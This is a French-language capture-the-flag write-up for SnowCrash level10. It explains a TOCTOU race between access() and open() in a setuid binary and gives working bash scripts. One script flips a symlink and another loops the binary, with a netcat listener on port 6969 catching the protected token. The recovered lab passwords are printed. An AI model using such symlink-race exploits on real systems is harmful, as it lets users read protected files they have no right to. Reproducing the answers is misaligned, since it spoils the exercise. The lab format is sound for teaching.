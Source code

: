 # README - Exploitation du binaire level10

## Étapes suivies pour obtenir le Flag10

### 1. Identification des fichiers

Le répertoire contient deux fichiers principaux :

```bash
level10@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag10 level10 8672 Mar  5  2016 level10
----r--r-- 1 flag10 level10   32 Mar  5  2016 token
```

- **`level10`** : Un exécutable avec les permissions `setuid` et `setgid`, s'exécutant avec les privilèges de l'utilisateur `flag10`.
- **`token`** : Un fichier contenant le mot de passe chiffré pour `flag10`, inaccessible directement en lecture par `level10`.

### 2. Analyse du programme `level10`

En exécutant le programme avec `ltrace ./level10 token 127.0.0.1`, on observe :

- Le binaire utilise `access()` pour vérifier les permissions de lecture sur le fichier passé en argument.
- Il ouvre ensuite le fichier avec `open()` et envoie son contenu via une connexion TCP sur le port 6969.
- Une vulnérabilité TOCTOU (Time-Of-Check-To-Time-Of-Use) existe : un délai entre la vérification des droits et l'ouverture permet de manipuler le fichier.

### 3. Exploitation de la race condition

La stratégie consiste à utiliser un lien symbolique modifié en temps réel pour tromper le binaire :
- Créer un fichier lisible (`/tmp/stuff`) comme leurre.
- Alterner un lien symbolique (`/tmp/link`) entre `/tmp/stuff` et `/home/user/level10/token` pour exploiter le délai entre `access()` et `open()`.

### 4. Mise en œuvre avec des scripts

Deux scripts ont été utilisés pour automatiser l'exploitation.

#### Script `/tmp/link.sh` :
```bash
#!/bin/bash
while true; do
    ln -sf /tmp/stuff /tmp/link
    rm -f /tmp/link
    ln -sf /home/user/level10/token /tmp/link
    rm -f /tmp/link
done
```

#### Script `/tmp/run.sh` :
```bash
#!/bin/bash
while true; do
    /home/user/level10/level10 /tmp/link 127.0.0.1
done
```

#### Étape 1 : Préparation
- Créer le fichier leurre : `echo "test" > /tmp/stuff` et `chmod 644 /tmp/stuff`.
- Lancer `/tmp/link.sh` dans un terminal pour alterner le lien.
- Lancer `nc -lk 0.0.0.0 6969` dans un autre terminal pour écouter les données.

#### Étape 2 : Exécution
- Lancer `/tmp/run.sh` dans un troisième terminal.
- Sur `nc`, récupérer le contenu du `token` (ex. : `woupa2yuojeeaaed06riuj63c`) après plusieurs essais.

### 5. Passage à l'utilisateur suivant

Utiliser le mot de passe récupéré pour passer à `flag10` :

```bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

### 6. Accès à l'utilisateur suivant

Utiliser le token pour passer à `level11` :

```bash
flag10@SnowCrash:~$ su level11
Password: feulo4b72j7edeahuete3no7c
level11@SnowCrash:~$
```

### Vulnérabilité expliquée

Le programme `level10` souffre d'une vulnérabilité TOCTOU. Il vérifie les permissions avec `access()` mais ouvre le fichier plus tard avec `open()`. En modifiant rapidement un lien symbolique entre un fichier lisible et le `token` pendant ce délai, on force le binaire à envoyer le contenu du `token`, malgré ses restrictions d'accès. Cette exploitation nécessite une synchronisation précise et ne repose pas sur du brute force, mais sur une manipulation logique du système de fichiers.